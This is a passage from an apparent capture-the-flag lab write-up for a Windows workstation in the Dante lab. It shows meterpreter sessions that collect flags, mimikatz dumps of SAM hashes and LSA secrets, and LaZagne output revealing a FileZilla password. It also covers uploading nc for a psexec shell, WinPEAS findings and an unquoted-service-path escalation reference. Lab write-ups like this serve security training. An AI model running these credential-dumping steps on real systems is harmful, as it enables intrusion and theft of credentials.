[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
meterpreter > getuid 
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Server username: NT AUTHORITY\SYSTEM
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
meterpreter >
```

* * *

## Extra:

Now that we have a access on the machine we should start to find all the possible flags, the first under Dido's home:

```
meterpreter > ls
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Listing: C:\Users\dharding\Desktop
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1417  fil   2020-07-13 21:46:34 +0200  Microsoft Edge.lnk
100666/rw-rw-rw-  282   fil   2020-07-28 08:12:37 +0200  desktop.ini
100666/rw-rw-rw-  28    fil   2021-01-08 14:35:57 +0100  flag.txt
100666/rw-rw-rw-  12    fil   2020-07-31 16:36:49 +0200  qc
```

That qc is poinitng to IOBIT Uninstaller which could be the intended escaltion path via "Quotes" in filepath:

```
meterpreter > cat qc 
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
IObitUnSvr
```

We can see a edge backup which could contain potential passwords from example Jenkins on the last internal server. I will download the folder for a local checkup



Next I will move to local admin and grab his flag from desktop:

```
meterpreter > ls
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1417  fil   2020-07-14 12:18:20 +0200  Microsoft Edge.lnk
100666/rw-rw-rw-  282   fil   2020-07-14 13:49:44 +0200  desktop.ini
100666/rw-rw-rw-  33    fil   2021-01-08 14:34:49 +0100  flag.txt

[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
meterpreter > cat flag.txt 
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
DANTE{Qu0t3_I_4M_secure!_unQu0t3}[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
meterpreter >
```

We can check if any other NIC is installed on this server pointing to other internal subnets? Edit: No others which mean we can stop when we are done with enumerations.



I see a dcontrol.zip in Admins download folder but I guess is legit and not part of the challenge: https://www.sordum.org/9480/defender-control-v2-1/

```
meterpreter > ls
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Listing: C:\Users\Administrator\Downloads
=========================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  455998  fil   2021-10-27 17:31:02 +0200  dControl (1).zip
100666/rw-rw-rw-  455998  fil   2021-10-27 17:28:28 +0200  dControl.zip
100666/rw-rw-rw-  282     fil   2020-07-14 13:49:44 +0200  desktop.ini

[proxychains] DLL init: proxychains-ng 4.16
```

And next I will download the sshd config file:



Next I will load and use the mimikatz to download all hashes from SAM hive:

```
meterpreter > lsa_dump_sam 
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[+] Running as SYSTEM
[*] Dumping SAM
Domain : DANTE-WS02
SysKey : 833bb91f94db4d04c00d2ebd1e4b92b0
Local SID : S-1-5-21-3529848291-2371357972-1873374923

SAMKey : e282eabb6bf269d56b6a945939e36fc3

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 4c827b7074e99eefd49d05872185f7f8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : d1a805389566f82c001b9b7cb2579210

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-HGVFP37Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8b30f2a052ce8f7fea77a73b53552bcc08ff737ed213c91430452315d48eccfd
      aes128_hmac       (4096) : 742a813ce7f76c00dc11fd1d0ce73432
      des_cbc_md5       (4096) : 3df7857c451c9b9b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-HGVFP37Administrator
    Credentials
      des_cbc_md5       : 3df7857c451c9b9b


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 2e68a3ca340652eb2107a49d2d1b8049

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 20af798becbe422d95d27454153ec6e8

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 5cda7940cbf0d923b395261447f2887776fba11aeb7b75278ff79701844962ad
      aes128_hmac       (4096) : ac001bbbdc11a6bbba1eca4202d5f9d7
      des_cbc_md5       (4096) : 61299e7a768fa2d5

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 61299e7a768fa2d5


RID  : 000003e9 (1001)
User : dharding
  Hash NTLM: 9a64e3e730594630f571ee71c6a9661b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 3a26580e070299b010fb40045eb9a6e6

* Primary:Kerberos-Newer-Keys *
    Default Salt : DANTE-WS02dharding
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 7e0bc4e72784b0df7ecedb38b1525e413171089a71c3ea5c13a306420e754d3a
      aes128_hmac       (4096) : e1fe6b76a4530a83172cbdd65919dc2e
      des_cbc_md5       (4096) : 011ad54345613be9
    OldCredentials
      aes256_hmac       (4096) : 3e4dc078583877656dc4263c3dbe512e4a60be6d5da7012b14aaadfbcb939fa8
      aes128_hmac       (4096) : 6a19de5a8abcc919c23b3181f2b26d59
      des_cbc_md5       (4096) : 3bda73bc32da92e5
    OlderCredentials
      aes256_hmac       (4096) : 3e4dc078583877656dc4263c3dbe512e4a60be6d5da7012b14aaadfbcb939fa8
      aes128_hmac       (4096) : 6a19de5a8abcc919c23b3181f2b26d59
      des_cbc_md5       (4096) : 3bda73bc32da92e5

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DANTE-WS02dharding
    Credentials
      des_cbc_md5       : 011ad54345613be9
    OldCredentials
      des_cbc_md5       : 3bda73bc32da92e5


RID  : 000003ea (1002)
User : sshd
  Hash NTLM: 06002020e60e9ec6865e40776629c273

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 20c6a6e71b4ba5f2012f42835581c618

* Primary:Kerberos-Newer-Keys *
    Default Salt : DANTE-WS02sshd
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 161dbb30968b7843c1f93d247b91e2321a8818c2813345f7d8f20920b6207767
      aes128_hmac       (4096) : 0cfb52f67f58d1943b2cc0aa5cf22c21
      des_cbc_md5       (4096) : c7dcef409df8627f

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DANTE-WS02sshd
    Credentials
      des_cbc_md5       : c7dcef409df8627f
```

Now we have mastly some hashes and no cleartext creds, but we can try to download all the secrets aswell:

```
meterpreter > lsa_dump_secrets 
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : DANTE-WS02
SysKey : 833bb91f94db4d04c00d2ebd1e4b92b0

Local name : DANTE-WS02 ( S-1-5-21-3529848291-2371357972-1873374923 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {17a5bd16-9fca-f0da-4958-26830ffd8c19}
  [00] {17a5bd16-9fca-f0da-4958-26830ffd8c19} 95753a4e887f2ac20e1c9da40a3340d4b1b7abc4d169fad5112eea5fabd148d2

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 2d 1c da 9d 60 70 ea f9 df 14 72 21 fe f6 b1 ce 5e 9a f3 72 1a 33 4b e8 f1 3f 68 41 0c 3e 7e 25 38 4c a5 7b be 32 b6 dd 
    full: 2d1cda9d6070eaf9df147221fef6b1ce5e9af3721a334be8f13f68410c3e7e25384ca57bbe32b6dd
    m/u : 2d1cda9d6070eaf9df147221fef6b1ce5e9af372 / 1a334be8f13f68410c3e7e25384ca57bbe32b6dd
old/hex : 01 00 00 00 65 89 c3 3c e6 fe f1 aa b3 e9 6d 57 47 c3 62 cd 5e b5 7e e1 67 a3 c8 42 8c f0 e5 e5 c4 9d a0 1b b1 09 db 5d 8d 38 cb 6a 
    full: 6589c33ce6fef1aab3e96d5747c362cd5eb57ee167a3c8428cf0e5e5c49da01bb109db5d8d38cb6a
    m/u : 6589c33ce6fef1aab3e96d5747c362cd5eb57ee1 / 67a3c8428cf0e5e5c49da01bb109db5d8d38cb6a

Secret  : L$_SQSA_S-1-5-21-3529848291-2371357972-1873374923-1001
cur/text: {"version":1,"questions":[{"question":"What was your first petd0057005300300032006400680061007200640069006e006700011ad54345613be93bda73bc32da92e5�(�/Q��\˛��00iP 
a��`�`��00:0000a1cf)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 03/09/2023 20:41:26
SID               : S-1-5-96-0-0
        ssp :

Authentication Id : 0 ; 40506 (00000000:00009e3a)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 03/09/2023 20:41:26
SID               :

[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
```

We can see part of the security question but not sure if is really relevant to us right now. Now the shell can't be invoked from a metepreter so I will upload NC and then use psexec to elevate to na full working shell via NC.

I will run lazagne.exe to get all the passwords from the system and we can finally read the full message from dpapi secrets and a password from filezilla:

```
C:\>lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 723ecfbc-ea43-4bc1-ab88-c123e952d385
[+] System masterkey decrypted for 91b20f59-9992-4d5d-8426-a4378321a4d6
[+] System masterkey decrypted for b158cf58-af8a-4adb-83f0-924c106605de
[+] System masterkey decrypted for d777b21f-96d4-4528-9b28-f6d1ffa95b29
[+] System masterkey decrypted for e4ca2318-c4bb-47ae-97e7-71e295b3b756

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:4c827b7074e99eefd49d05872185f7f8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2e68a3ca340652eb2107a49d2d1b8049:::
dharding:1001:aad3b435b51404eeaad3b435b51404ee:9a64e3e730594630f571ee71c6a9661b:::
sshd:1002:aad3b435b51404eeaad3b435b51404ee:06002020e60e9ec6865e40776629c273:::

------------------- Lsa_secrets passwords -----------------

DPAPI_SYSTEM
0000   01 00 00 00 2D 1C DA 9D 60 70 EA F9 DF 14 72 21    ....-...`p....r!
0010   FE F6 B1 CE 5E 9A F3 72 1A 33 4B E8 F1 3F 68 41    ....^..r.3K..?hA
0020   0C 3E 7E 25 38 4C A5 7B BE 32 B6 DD                .>~%8L.{.2..

L$_SQSA_S-1-5-21-3529848291-2371357972-1873374923-1001
0000   E4 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   7B 00 22 00 76 00 65 00 72 00 73 00 69 00 6F 00    {.".v.e.r.s.i.o.
0020   6E 00 22 00 3A 00 31 00 2C 00 22 00 71 00 75 00    n.".:.1.,.".q.u.
0030   65 00 73 00 74 00 69 00 6F 00 6E 00 73 00 22 00    e.s.t.i.o.n.s.".
0040   3A 00 5B 00 7B 00 22 00 71 00 75 00 65 00 73 00    :.[.{.".q.u.e.s.
0050   74 00 69 00 6F 00 6E 00 22 00 3A 00 22 00 57 00    t.i.o.n.".:.".W.
0060   68 00 61 00 74 00 20 00 77 00 61 00 73 00 20 00    h.a.t. .w.a.s. .
0070   79 00 6F 00 75 00 72 00 20 00 66 00 69 00 72 00    y.o.u.r. .f.i.r.
0080   73 00 74 00 20 00 70 00 65 00 74 00 19 20 73 00    s.t. .p.e.t.. s.
0090   20 00 6E 00 61 00 6D 00 65 00 3F 00 22 00 2C 00     .n.a.m.e.?.".,.
00A0   22 00 61 00 6E 00 73 00 77 00 65 00 72 00 22 00    ".a.n.s.w.e.r.".
00B0   3A 00 22 00 6C 00 75 00 63 00 6B 00 79 00 22 00    :.".l.u.c.k.y.".
00C0   7D 00 2C 00 7B 00 22 00 71 00 75 00 65 00 73 00    }.,.{.".q.u.e.s.
00D0   74 00 69 00 6F 00 6E 00 22 00 3A 00 22 00 57 00    t.i.o.n.".:.".W.
00E0   68 00 61 00 74 00 20 00 77 00 61 00 73 00 20 00    h.a.t. .w.a.s. .
00F0   79 00 6F 00 75 00 72 00 20 00 63 00 68 00 69 00    y.o.u.r. .c.h.i.
0100   6C 00 64 00 68 00 6F 00 6F 00 64 00 20 00 6E 00    l.d.h.o.o.d. .n.
0110   69 00 63 00 6B 00 6E 00 61 00 6D 00 65 00 3F 00    i.c.k.n.a.m.e.?.
0120   22 00 2C 00 22 00 61 00 6E 00 73 00 77 00 65 00    ".,.".a.n.s.w.e.
0130   72 00 22 00 3A 00 22 00 6A 00 69 00 66 00 22 00    r.".:.".j.i.f.".
0140   7D 00 2C 00 7B 00 22 00 71 00 75 00 65 00 73 00    }.,.{.".q.u.e.s.
0150   74 00 69 00 6F 00 6E 00 22 00 3A 00 22 00 57 00    t.i.o.n.".:.".W.
0160   68 00 61 00 74 00 19 20 73 00 20 00 74 00 68 00    h.a.t.. s. .t.h.
0170   65 00 20 00 6E 00 61 00 6D 00 65 00 20 00 6F 00    e. .n.a.m.e. .o.
0180   66 00 20 00 74 00 68 00 65 00 20 00 63 00 69 00    f. .t.h.e. .c.i.
0190   74 00 79 00 20 00 77 00 68 00 65 00 72 00 65 00    t.y. .w.h.e.r.e.
01A0   20 00 79 00 6F 00 75 00 72 00 20 00 70 00 61 00     .y.o.u.r. .p.a.
01B0   72 00 65 00 6E 00 74 00 73 00 20 00 6D 00 65 00    r.e.n.t.s. .m.e.
01C0   74 00 3F 00 22 00 2C 00 22 00 61 00 6E 00 73 00    t.?.".,.".a.n.s.
01D0   77 00 65 00 72 00 22 00 3A 00 22 00 62 00 61 00    w.e.r.".:.".b.a.
01E0   72 00 6E 00 73 00 6C 00 65 00 79 00 22 00 7D 00    r.n.s.l.e.y.".}.
01F0   5D 00 7D 00 00 00 00 00 00 00 00 00 00 00 00 00    ].}.............

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   92 3B 30 EB 01 48 D0 18 27 67 AD AB 21 FC 49 B7    .;0..H..'g..!.I.
0020   D6 AD 72 2C FF 78 6C 31 95 A6 63 C2 97 8A 74 CD    ..r,.xl1..c...t.
0030   43 19 7B ED 93 5B 7E 93 7F E1 56 95 61 F0 D0 58    C.{..[~...V.a..X
0040   09 49 45 67 92 58 A9 8D D4 9B EC D1 E4 F5 85 E3    .IEg.X..........
0050   BD E6 57 C3 A6 92 90 4F 1F 25 C9 09 4D F6 FE AF    ..W....O.%..M...


########## User: Administrator ##########

------------------- Filezillaserver passwords -----------------

[+] Password found !!!
Host: localhost
Port: 14147
Password: Hacktheplanetz


########## User: dharding ##########

------------------- Filezillaserver passwords -----------------

[+] Password found !!!
Host: localhost
Port: 14147
Password: Hacktheplanetz


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 27.125006675720215

C:\>[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:135  ...  OK

C:\>
```

And lastly i will report all the interesting informations from WInpeas.bat:

```
[*] BASIC SYSTEM INFO                                                                                                                                                                                                                                        
 [+] WINDOWS OS                                                                                                                                                                                                                                              
   [i] Check for vulnerabilities for the OS version with the applied patches                                                                                                                                                                                 
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits                                                                                                                                                      
                                                                                                                                                                                                                                                             
Host Name:                 DANTE-WS02                                                                                                                                                                                                                        
OS Name:                   Microsoft Windows 10 Pro                                                                                                                                                                                                          
OS Version:                10.0.18363 N/A Build 18363                                                                                                                                                                                                        
OS Manufacturer:           Microsoft Corporation                                                                                                                                                                                                             
OS Configuration:          Standalone Workstation                                                                                                                                                                                                            
OS Build Type:             Multiprocessor Free                                                                                                                                                                                                               
Registered Owner:          dharding                                                                                                                                                                                                                          
Registered Organization:                                                                                                                                                                                                                                     
Product ID:                00331-20309-59368-AA986                                                                                                                                                                                                           
Original Install Date:     14/07/2020, 03:43:11                                                                                                                                                                                                              
System Boot Time:          03/09/2023, 20:41:16                                                                                                                                                                                                              
System Manufacturer:       VMware, Inc.                                                                                                                                                                                                                      
System Model:              VMware7,1                                                                                                                                                                                                                         
System Type:               x64-based PC                                                                                                                                                                                                                      
Processor(s):              1 Processor(s) Installed.                                                                                                                                                                                                         
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz                                                                                                                                                                   
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020                                                                                                                                                                        
Windows Directory:         C:\WINDOWS                                                                                                                                                                                                                        
System Directory:          C:\WINDOWS\system32                                                                                                                                                                                                               
Boot Device:               \Device\HarddiskVolume3                                                                                                                                                                                                           
System Locale:             en-us;English (United States)                                                                                                                                                                                                     
Input Locale:              en-gb;English (United Kingdom)                                                                                                                                                                                                    
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)                                                                                                                                                                                            
Total Physical Memory:     4,095 MB                                                                                                                                                                                                                          
Available Physical Memory: 2,958 MB                                                                                                                                                                                                                          
Virtual Memory: Max Size:  4,799 MB                                                                                                                                                                                                                          
Virtual Memory: Available: 3,811 MB                                                                                                                                                                                                                          
Virtual Memory: In Use:    988 MB                                                                                                                                                                                                                            
Page File Location(s):     C:\pagefile.sys                                                                                                                                                                                                                   
Domain:                    WORKGROUP                                                                                                                                                                                                                         
Logon Server:              N/A                                                                                                                                                                                                                               
Hotfix(s):                 6 Hotfix(s) Installed.                                                                                                                                                                                                            
                           [01]: KB4552931                                                                                                                                                                                                                   
                           [02]: KB4497165                                                                                                                                                                                                                   
                           [03]: KB4517245                                                                                                                                                                                                                   
                           [04]: KB4560959                                                                                                                                                                                                                   
                           [05]: KB4561600                                                                                                                                                                                                                   
                           [06]: KB4592449                                                                                                                                                                                                                   
Network Card(s):           1 NIC(s) Installed.                                                                                                                                                                                                               
                           [01]: vmxnet3 Ethernet Adapter                                                                                                                                                                                                    
                                 Connection Name: Ethernet0 2                                                                                                                                                                                                
                                 DHCP Enabled:    No                                                                                                                                                                                                         
                                 IP address(es)                                                                                                                                                                                                              
                                 [01]: 172.16.1.101                                                                                                                                                                                                          
                                 [02]: fe80::f5d2:5e11:1eb3:a684                                                                                                                                                                                             
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.                                                                                                                                              
                                                                                                                                                                                                                                                             
Caption                                     Description      HotFixID   InstalledOn                                                                                                                                                                          
http://support.microsoft.com/?kbid=4552931  Update           KB4552931  7/14/2020                                                                                                                                                                            
http://support.microsoft.com/?kbid=4497165  Update           KB4497165  7/14/2020                                                                                                                                                                            
http://support.microsoft.com/?kbid=4517245  Update           KB4517245  7/14/2020                                                                                                                                                                            
http://support.microsoft.com/?kbid=4560959  Security Update  KB4560959  7/14/2020                                                                                                                                                                            
http://support.microsoft.com/?kbid=4561600  Security Update  KB4561600  7/14/2020                                                                                                                                                                            
https://support.microsoft.com/help/4592449  Security Update  KB4592449  9/4/2023                                                                                                                                                                             
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
"VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020   "                                                                                                                                                                                              
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)                                                                                                                                                            
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)                                                                                                                                                                                                      
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)                                                                                                                                                                                   
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                                                                                                                                                
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)                                                                                                                                                                                                  
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)                                                                                                                                                               
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)                                                                                                                                                                                    
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)                                                                                                                                                                  
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)                                                                                                                                                                               
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)                                                                                                                                                                                     
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)                                                                                                                                                                      
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                                                                                                                                                                                                       
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                                                                                                                                                                                                        
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                                                                                                                                                                                                        
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)                                                                                                                                                                                                     
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)                                                                                                                                                                                                  
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)                                                                                                                                                                                       
MS04-020 patch is NOT installed 2K/SP4-POSIX)                                                                                                                                                                                                                
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                                                                                                                                                    
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)                                                                                                                                                                                 
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)                                                                                                                                                                                  
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                                                                                                                                                                                                              
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)                                                                                                                                                                                
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)                                                                                                                                                                                                    
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)                                 


 Volume Serial Number is 0EC4-B504                                                                                                                                                                                                                           
                                                                                                                                                                                                                                                             
 Directory of C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine                                                                                                                                                                 
                                                                                                                                                                                                                                                             
13/04/2021  23:40             1,294 ConsoleHost_history.txt  


[+] INSTALLED SOFTWARE                                                                                                                                                                                                                                      
   [i] Some weird software? Check for vulnerabilities in unknow software installed                                                                                                                                                                           
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software                                                                                                                                                             
                                                                                                                                                                                                                                                             
Common Files                                                                                                                                                                                                                                                 
Common Files                                                                                                                                                                                                                                                 
CUAssistant                                                                                                                                                                                                                                                  
FileZilla Server                                                                                                                                                                                                                                             
Internet Explorer                                                                                                                                                                                                                                            
Internet Explorer                                                                                                                                                                                                                                            
IObit                                                                                                                                                                                                                                                        
Microsoft.NET                                                                                                                                                                                                                                                
ModifiableWindowsApps                                                                                                                                                                                                                                        
rempl                                                                                                                                                                                                                                                        
UNP                                                                                                                                                                                                                                                          
VMware                                                                                                                                                                                                                                                       
Windows Defender                                                                                                                                                                                                                                             
Windows Defender                                                                                                                                                                                                                                             
Windows Defender Advanced Threat Protection                                                                                                                                                                                                                  
Windows Mail                                                                                                                                                                                                                                                 
Windows Mail                                                                                                                                                                                                                                                 
Windows Media Player                                                                                                                                                                                                                                         
Windows Media Player                                                                                                                                                                                                                                         
Windows Multimedia Platform                                                                                                                                                                                                                                  
Windows Multimedia Platform                                                                                                                                                                                                                                  
Windows NT                                                                                                                                                                                                                                                   
Windows NT                                                                                                                                                                                                                                                   
Windows Photo Viewer                                                                                                                                                                                                                                         
Windows Photo Viewer                                                                                                                                                                                                                                         
Windows Portable Devices                                                                                                                                                                                                                                     
Windows Portable Devices                                                                                                                                                                                                                                     
Windows Security                                                                                                                                                                                                                                             
WindowsPowerShell                                                                                                                                                                                                                                            
WindowsPowerShell                                                                                                                                                                                                                                            
    InstallLocation    REG_SZ    C:\Program Files (x86)\FileZilla Server                                                                                                                                                                                     
    InstallLocation    REG_SZ    C:\Program Files (x86)\IObit\IObit Uninstaller\                                                                                                                                                                             
    InstallLocation    REG_SZ    C:\Program Files (x86)\FileZilla Server                                                                                                                                                                                     
    InstallLocation    REG_SZ    C:\Program Files (x86)\IObit\IObit Uninstaller\
```

I can't find anything more so I guess we can move forward from here...

* * *

## OBS:

I checked the indented way and indeed the PE from Dido to Admin was supposed to happen via IOBit Uninstaller unquoted service path: https://www.exploit-db.com/exploits/48543